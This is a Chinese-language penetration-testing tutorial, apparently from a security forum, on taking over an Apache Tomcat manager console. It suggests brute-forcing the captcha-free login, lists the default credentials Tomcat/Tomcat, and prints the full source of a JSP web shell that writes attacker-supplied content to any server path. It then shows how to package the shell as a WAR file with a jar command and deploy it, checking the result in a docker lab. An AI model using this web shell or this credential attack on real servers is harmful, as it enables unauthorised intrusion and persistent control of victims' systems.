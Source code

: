 它的登录窗口是没有验证码的 直接爆破就可以

默认

```php
Users：TomcatPasswd：Tomcat
```

登录进去之后 进行查看

![1619329890433](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fdce4d9df56ec3ced7ee8c6de010d7f2f8eb7ee2.png)

**为什么需要上传wa包，为什么不是 tar.zip？？**

war包是用来进行Web开发时一个网站项目下的所有代码，包括前台HTML/CSS/JS代码，以及后台 JavaWeb的代码。当开发人员开发完毕时，就会将源码打包给测试人员测试，测试完后若要发布则也会打包成War包进行发布。War包可以放在Tomcat下的webapps或word目录，当Tomcat服务器启动时，War包即会随之解压源代码来进行自动部署。

上传JSP的大马

```php
<%@page contentType="text/html;charset=gb2312"%>    <%@page import="java.io.*,java.util.*,java.net.*"%>    <html>      <head>        <title></title>        <style type="text/css">         body { color:red; font-size:12px; background-color:white; }        </style>      </head>      <body>      <%       if(request.getParameter("context")!=null)       {       String context=new String(request.getParameter("context").getBytes("ISO-8859-1"),"gb2312");       String path=new String(request.getParameter("path").getBytes("ISO-8859-1"),"gb2312");       OutputStream pt = null;            try {                pt = new FileOutputStream(path);                pt.write(context.getBytes());                out.println("<a href='"+request.getScheme()+"://"+request.getServerName()+":"+request.getServerPort()+request.getRequestURI()+"'><font color='red' title='点击可以转到上传的文件页面!'>上传成功!</font></a>");            } catch (FileNotFoundException ex2) {                out.println("<font color='red'>上传失败!</font>");            } catch (IOException ex) {                out.println("<font color='red'>上传失败!</font>");            } finally {                try {                    pt.close();                } catch (IOException ex3) {                    out.println("<font color='red'>上传失败!</font>");                }            }    }      %>        <form name="frmUpload" method="post" action="">        <font color="blue">本文件的路径:</font><%out.print(request.getRealPath(request.getServletPath())); %>        <br>        <br>        <font color="blue">上传文件路径:</font><input type="text" size="70" name="path" value="<%out.print(getServletContext().getRealPath("/")); %>">        <br>        <br>        上传文件内容:<textarea name="context" id="context" style="width: 51%; height: 150px;"></textarea>        <br>        <br>        <input type="submit" name="btnSubmit" value="Upload">        </form>      </body>    </html>   
```

zip压缩 然后改后缀 成war的包

或者使用Java命令：

```php
jar -cvf dayu.war dayu.jsp
```

![1619339840138](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1719874aac9ed7b379316712778f4ad6e13c8dea.png)

![1619339862773](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2b47fa7cd2074f66973255b430c15c9d6033d7fc.png)

这里的`/2` 就是war包的名字

去docker底层看看是否成功上传
